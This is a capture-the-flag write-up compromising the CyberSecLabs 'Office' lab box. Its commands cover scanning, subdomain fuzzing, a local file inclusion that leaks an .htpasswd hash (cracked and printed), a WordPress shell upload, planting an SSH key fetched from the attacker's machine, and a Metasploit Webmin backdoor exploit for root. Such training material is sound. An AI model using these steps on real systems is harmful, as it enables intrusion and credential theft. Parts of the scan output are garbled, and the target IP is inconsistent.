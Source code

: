 # CyberSecLabs : Office 

```CVE-2019-15107```

```zsh
nmap -sC -sV -p 22,80,443 172.31.1.3

PORT      STATE    SERVICE          VERSION                                                                                                                                                  
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                             
| ssh-hostkey:                                                                                                                                                                               
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)                                                                                                                               
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)                                                                                                                              
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)                                                                                                                            
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))                                                                                                                           
|_http-generator: WordPress 5.4.1                                                                                                                                                            
| http-methods:                                                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                 
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                                                 
|_http-title: Dunder Mifflin &#8211; Just another WordPress site                                                                                                                             
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))                                                                                                                           
| http-methods:                                                                                                                                                                              
|_  Supported Methods: HEAD GET POST OPTIONS                                                                                                                                                 
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                                                 
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                                                          
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US                                                                             
| Issuer: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US                                                                                        
| Public Key type: rsa                                                                                                                                                                       
| Public Key bits: 4096                                                                                                                                                                      
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                               
| Not valid before: 2PORT      STATE    SERVICE          VERSION                                                                                                                                                  
                                                                                                                                                 
| Not valid after:  2021-05-08T20:01:51                                                                                                                                                      
| MD5:   e159 faf3 e637 25ad 7d95 3210 9a69 bce6                                                                                                                                             
|_SHA-1: adee e6e5 1566 a86f c8d9 6d7e 1fc0 2239 e21e 92ef                                                                                                                                   
|_ssl-date: TLS randomness does not represent time                                                                                                                                           
| tls-alpn:                                    
|_  http/1.1                                   
10000/tcp filtered snet-sensor-mgmt                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Subdomain finding:

```zsh
wfuzz -c -f sub-fighter -w /root/SecLists/Discovery/DNS/fierce-hostlist.txt  -u "http://office.csl" -H "Host: FUZZ.office.
csl" -t 42 --hh 32240
```

Get subdomain :```forum.office.csl```

Get the hints that there is ```port forwarding```

Dirsearch it: to find ```office.csl/wp-login.php```

In forums there is a LFI from ```forum.office.csl/chatlogs/chatlogs.php?file=chatlog.txt```

fuzz it using Seclists - Jhaddix list:

```zsh
python3 dirsearch/dirsearch.py -u http://forum.office.csl/chatlogs/chatlogs.php\?file\= -w /root/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt  -e * -R 3
```
```[04:08:07] 403 -  281B  - /.htpasswd```

Use LFI payload ../.htpasswd and 
get a hash for dwight

```dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/```

Crack it
```zsh
john hash.txt /usr/share/wordlists/rockyou.txt
```
```dwight:cowboys1```

Login in wordpress. Upload file using wordpress filemanager. Get a shell. 

Then ```sudo -u dwight /bin/bash/```

on your kali machine
```zsh
ssh-keygen
```
cat id_rsa.pub > authorized_keys

wget this to dwights .ssh folder

And now ssh as dwight

```
ssh -i id_rsa dwight@172.31.3.1 
```

in my nmap and winpeas and linpeas result I had seen 10000 port.
I tried to connect to using and grab the banner, it was minserv ---> basically webmin

SSH Tunneling:
``` ssh -i id_rsa -L 7000:127.0.0.1:10000 -N -f dwight@172.31.3.1```

https://linuxize.com/post/how-to-setup-ssh-tunneling/

Now go to localhost:7000 and you can access the webmin site.

go to msfconsole and search webmin

Get this module:

```exploit/linux/http/webmin_backdoor```

set LHOST as your tun0, since you have done tunneling RHOST is 127.0.0.1 and the RPORT is 7000

exploit and you will have shell as root.

